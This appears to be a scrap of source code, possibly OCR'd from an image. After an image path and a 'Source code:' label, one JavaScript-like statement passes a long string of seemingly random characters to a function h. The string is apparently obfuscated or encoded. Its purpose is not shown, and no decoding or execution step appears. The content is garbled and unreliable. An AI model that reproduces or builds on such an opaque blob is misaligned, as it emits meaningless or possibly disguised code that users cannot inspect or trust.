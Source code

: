 r=h(s,"*E<.JR#bu4F2sSi?Fi/Ru#LuuSE#uiEY4<E<OpFuE?2<<b#J0i2S<s<22R<sFi.d2Z4SR<ssJFs?J2Su<sSERuJ2SsJssiR!SxsJ#.i<b<i4b^i2<#S2b.?4u.?sb.luuRVF?4u.?Fbs?ibib.!44REEuRE4F(EuFR<?E4F<EF4sEi4ius.EFs.Es{?:4FJ42u2bJ<2u.F2s.s<4SuRSsiRRi<RR4<.si2RFR4iERFSsRiSiS4#S?iu;?bbi?4ubbR?Sb#?ubF?FiJ4.EJ4.sFbJ<.4<4EEi4<EJ4#E#)sF4.+Fi<b#uE#2E.R2RJj2uJ4.bs..u2F.s2sFRRJSERbSEqis.RFSRRFibbER2i4RsSi#wi0Sub??FbE?u.<iEuR-#uSEvu.E<4Ru.<JuJ(#uuQu?uFE<EFRSuu<ESFE<2#<isus.S2u<?2b.?s7.Rb#J#s4?sFiJ.4E.ESRJFS.RuS.E4REi.R<SJR#S#sE#E?J<JSu#4iSbEFi#.?2uEn2uJ?249-S4<uE<<u<ZJu#{#?SFe<#4S<.FE.JFESi24.E24.u#u.EFS.22R?<2FJRsF?F2iJ.SJR#s4Ruuu.U2sJEJ?S4RrS<RJSJ2i#FiE##i4<#sF#2?ubF#??#b_?<bJ?Jis4eZR4RMS4JYSN44RxFus5iuiu4<4F?<RF<inu4<R2.<S#F<J<S2#<i20.<2<F<RRsiJRSJwJFiRSsss2R.ssJiSAR)JsiSbEiS<gsFb4iuibb2iu#Fis#sRb?buR??ui??Jj?#4.ESuSEsJs?<4REu44<JF2E?E2FiEs4i<!F 42.?2s..s<?<Fp.224JESEJ.uN.RS.J4s2J?SisSRRsiRnS<R<JbiE#2iR<<Sb#2i4i4buiF#sii#iRu?4uiTJ4Z(?4EEEJ#i44i<ru?E.4S4.<i4JE#4uEu_R2R<bFb.uF?is4i.Es<.Rb#<us.R#SuJESRLJ2#REiJ##S.#<S2RRRRSiR#SuRFSFSR#4ibbFiSbJSzbEjJ?.ui?Jb#?ubu4<_J4sDb42ES4E<<44E##iiR#b?<bE?Eb4?Fb2?ub2?2u^DbuRaRu#2R.?2#.u2F.F.^s4RSuu.?SsR<SE##S4SJRJS4#JSFRsSiRiRui4#Si?bS??u82JRi(Sbsb2osbs?iu6+ni244EsFbS+b#ESF4E2F4<iF<i,ui<S2J..<4sb<FFs<iFi2Y.SsFJJSbR<u<csFsRSSuJ?SbR?iNRR4###i4Essi#.2ERE?R#F?.bu?..4bE?4b<?Jb#?#i/uRl#JJ?Su4Es4?uSE?uiE94<E<(#FE<RFR.wFu.4#uEs2EXuFbJJ2SJFss.?sF2SJ#2iJBs<J<<?iJRiSs#Eiu.siE#uR2?JRsSi#Qi7SR#2?B<iS.b2kuu?2uRSdJb?EY4#(44usuRsssuEE.FJESF#<sE4FuEF4sEi4iub.#2..42.?>FR.Ss.JSs#.SS<J?SJs.J2sJJ#suJuJ.iE#4i#Eus<bEizS?#si8#<iJ#J#t?Sub?bu#2##b&k.si#uROi4huRE?u#8uuFoF?iu4?4u.E.RsQPusEEubEE42iFui<?sJJ#s>.22?Jss2R.siJ#SbsR#.s#JusFJFJJSS#sS4##i?EiFuJu?4bJi2b.?2bs?E.<Q<uR2u#F??JSiS4Ef#u?EJu?SRZSFuIi4eE<4<ui<JF.iW4R.u2u.b2u..2.J.s#?J4u.4siRTsFJRs4R#SRRSSuR6iEs?#iSdR<SJRJRJi.#i?Eb<F#Rk??#iFi.uSuu4mJb2_.u2:suEs<4<ERJu6S4EEFFREi4R<u#E44E?4FEs4iEiEu2EJtFS.Fs.2E.F2<.J2#.#E?sJJ#F#R2SsRiS2RsJ?SRRjS<RJSJsi#b?7<<SF.u#b?S#uiF#sisS#u2)Eu#I_.ipEJ<i#4R)44issuEE44?<4F<E4Fi<2254?<uFV<<FJ<JE?sb.i22Jsb#<+s?.i.Ss#.isVJ<s<2SRsS.RRS#EJ2i#SSsS2#bSsRiiw#tR2i2bbP.u<?..Ji4us?2uFe<??ub-vu<DJuJb?EEF<E2FJ<FRuisE2F4Es4i<NFk4?.<22?Rs.?<su.i2S?FF?JiS4<EJ.S2JJs#Jusu2E#qSS#.SSEFs<#bib#F?u#2?FbSFs#E?4b?W4u<?4uit248b?=4u0+<uJAJ9Cb2E4Fb<E4?Suu<.EFW4?<sF)<<FJ<JEyF?.i2#JSbSJ2bF..sSR<siJuJRSbJ#suJFsF2R#.iJ#sis#2iF#RF<#u?R<uSS#?z1b41<uubR?Sb#?ubF?F?<#4?Fb2sFb.?SRE4E<.4<EJ4#E#z2FE<##J>42E.isRii4..F2RJ#ss.?si?i4<sERbs<JJs#J#RiSuR.i<#Fib#bSi#FiE##i4<#SSbu?RuJ?RuJ%bbbNJ?4uE?Fbs?ibi#sEFu?EEJi?uFbE#ER4?E#4uEF4FFi..Fb<s2SJGsk.4s,.2.R2S.#2u.F2F2RRusbRFuF.Ji.R<RESsR<SJR#S#s##4i##4S#bFi?b4?buR???.bb?Jb#?ubub4iFb4iu_b4RTuuFdsusubE4FF<.Fs.<#hEPF4.S#uE?2s.<<?2#.r2<.J2J4iJSs<z<FsR2sFs4RbsFJssiJi.bi##.i4#.F3RuiRbJi?b?iSuq?J?E4J?<bJ?#b#bk&Ru.E54.subs&S42<-4.E242Su#<!<2.<iFR<S2R.#F2is2s.?b<.b22JJs?Ju2?R<u2s.RisJJ#suJu#<SJ#sSb#2iS#E?<#4i#.i2R.bs<JEs.JEsJJusiRZsSJsS<RRS#RRuREsu#_uuFWF?4F#EbF2<SRslE2R.#2u<?2#.E#s<E24.?s4J<24Jis2R>.?S0Jas<JJsJFiRFiRRb4JJ<ibRSib.uF/RJiSbsi4b#??iSbuiib>?<b<#R(RusObJ<?wu2L?u2T?Fbu?E44&E<4JEJ 44<.<F2<42Fiu4<JE2CF?..2=.<2J.JJ.2?JSsbs.J2sJJ#suJu.ES##.i##s4FJ4i.S?buiU#<iJ#JR??ibR?bbu2##QA?bi2ibus<Js?uuSLS42E24R<_4uEb4s<4#R4S<k4i<WF<4uE?4u^?<?24.Z2<.J2J4SJ<sJ.Rs4J4SsR.S2RsJ?SbRdS<RJSJs2bDi4bE?<R<?E#s#2?##siibc?gS2u4oFusqRuREuJ#?G4?gi6S4.ji4zE<4<bSfFRi>u4bn#<RFs<#Fu<FFF4?.RsE.SFi.SsX2?J.scJ<sJJJ.Fs?RSSbS.RFSJR#SuRuR#2#RJF#RQ??#i#S?F#i?0b<?<iS43E&uRKb4u<dJukEuS<wRtiJE.F.EJ4#Eu4uuEi<44.J2EJf2EJWs...sw?#FsJ.s4J..?sJJ8s<JJsJSs# S4#oiuSRRSS#RuSFRFR2?4bF?b<FSJu.?<?Eb2?<bJ?#b##<%R4RtS4uxSJF?JF.E<EE4RE<4JE#0sb2?iuFpR<R2R<#Fu<FFFFJ.R2?J22??s2?LLFuRfSRRuSFJSui<<REi<R<SJR#S#s<b<i.#2?Rb#FFJS?<u#?bu<1FuS,suEEE??uut_u<_JuJbiEb4i<dFbS#uK<?4i4S.J4i<KF<<<Ei22JR2RJJbJEF2SJ3sEJsS.JbuJ.4SERbiERFSE##i.#uRb?uRuSFRsSsSbb#?Fb.?F<iSuub?#.#s;#rEEusg.u2E.4Jl4JFEF4SSnu<Eb#R:RF4EiFb<sFbiS<.Fb.<Fu<FFs<s<Jsu.SsbJRS.JS2ER<S<#EJ4SEJFssJisiS7RSi##04iJu?b###Rzb##iu#FiFisuS?Sb4ksu9-.JC?uR#s#RT?yFEEs4.E2F.<J44SFFF<S#6E<Fb?R4R.4Fi.b2s.bbS2RJE2#.u2F.F.RS6J?ssJ?iE#Ki.E?2s#2SFS4#<SFRsSiRiRJiSu<wEuE2KRFv4bubbm.bu?Fbs?s?b4./44SEJJi-J4FESFJE?FS42<<4sEiFN<1)42s<?#iEusb.#.R2i.#2u.F2F2<R#SRR<s?J?i<EcsuS.#<SJR#SuRuJ#?Jb4i?bs?S<siRbEHJu#??ubOsu?bSEubi&Au<!<iSuSE24R<J4RS#us<42.<.2<i<uu<2Fi<?2FJE2R?<F#.22FJ4siJs.?i<Jms<JJsJsJeisR#{SS#sSS#si?R?is<<FsJs?Sbui?bb??uN?R.#:#u42s#ic.RE?E4RpF4.Eu4.S4EE4FE<4JE#4#us<E2E<?F?iu4<JE2gF?.i20.<2J.J.EssJ4SuJ4SuR2s2Ruui.ES##ES?##R4?JRFSsRiSiS.bS?sb=?.u<?bu#f4.u?W#?2ib.mFu4Eu4FE.4<<ERz?#F4E2FJ<SE2F<Es4i<YF;4#<?sJii4uJb2#2RJ.2#.u2F.F.Ess..iE.ESER#SsRbS4E#sC#?SiSS#2Si#Ci<#<RF?J#??iu#^.u.2u#m 24ZK.ubEbaRusn#uuPFuFuFEuFEESFs.v#?4?<?F9<<FJ<JBS2s.42?.4b#<J22J?S<m(2RRusbR#sis2RsssJiSQRYJRi4bwiSb<iRbSi4bJi?<sS2bEk2bs?2uRb4dRbF?sbi?ii44bEu4<Eb4b?uF.<<4sE?Fi4S.i4i<jF<<<E#sE.s2EJFbJEisS.sbsx#F#RbS<J4SER4SFJ?48#ti.E#suRSF2J2i?#JiSb<iS..#2?R#siib{?hSSuEv..iiRu?EJu?EFu?u2.LusOi4QEh?i#F<i2<.RF2?J22.2#F.Js..<b<?s4sJSsu.?sbJ?SCJRu#R#S4xs2iR.FEJEiRRFi.#ui.<4#EiR#<iJ##i#Sbb.nEu<bR?Sb#?ubF?FS<4sSi#}sFbJ<.4<4EEF4<EJ4#E#E)24<J2..S#uE<sE.5<?2s.y2<.J2JF?J.<.u4<bu4Sb!F2<Rbi.RRSsSR#bS#RuSFRFRR?4bu?ib.+<b.2Gu#?sb22u#RHRuFfsubE#QR4<;#uu9FuFus<.F.EFF.<ERiGE2#.uFb<22RF2.RFs<i2H.3<222R<s.<.SER<ssRESEs2RissJiS_R:.S?<#EiEbR?##R?u<ussbui?bJ?b.JSub4h#uubS9SbirMu<f<?JFEEuFR<#Fb<2RuK.FF<JF4.HFS.FFSF4.<FF<sFi<iEbssJ<sERIuM<FS4JuJbSbJusFJssssk#2S2#R?REis<#i?.#4?.bSFsR#1RbJb.?sbJ?#bu?ui<ui/Ru4E.4RER4sEbEE4FE<4JE#4#uJ<?2J<2F2iu4<JE2:F?.b2k.<2J.J<?sER<s2RJSF_u42s2#2ssJiS_RgJRS2#4S?<IsFb4iu<u2<R<;.bi?RbSvRu#?2.shsu?s<bJv4Rb?b42ET44Ei44S?EbFREu4FEs4suu.u2EJM2R.s2b?<44J.suJ.siJ..?SVJ6s<JJsJ2sR.iJE<sbR?iR#?iuR??JbE?#<#sEJ.?CiSbuiibo?<b<#bER.i?&ubEuJ#?F44V?44u?E24&E<4JEJI?2.<SF2.u44<22s.R2iJJsR2..S2J.#2u.u<#SJR.SJRsS#RRSsRRiRS.R2SJR#SuRuJJibb<iS<uS<uE?Zi?bS?Yb<?JbJ#i??4<024uE?Ju?LuSEEFJ<EF#<?EbFsEu4FEs4s4J.uFS.S2?iiFE?<suJRbuJi2SRosbJbSuB#F4R.S4sSbDsiRgS<R<JSis#.iR##FJJi?S#sFs##2T.FSFu2B#bS3RuSOiu.sJ4JEbJF?s4ES?b?<.4u<EF#<E#b4?.EFK<<FJ<JEJ2SEusE?J4iJS2s?su#.JsbREu#..s?#R4bs?RbS^R<SJRJJuiS#sF<J?i?b#?Ei24<is#i?aby#sk<uREEJxfuuSE<uSsFF.7?F.S<FJ<uFb<iFE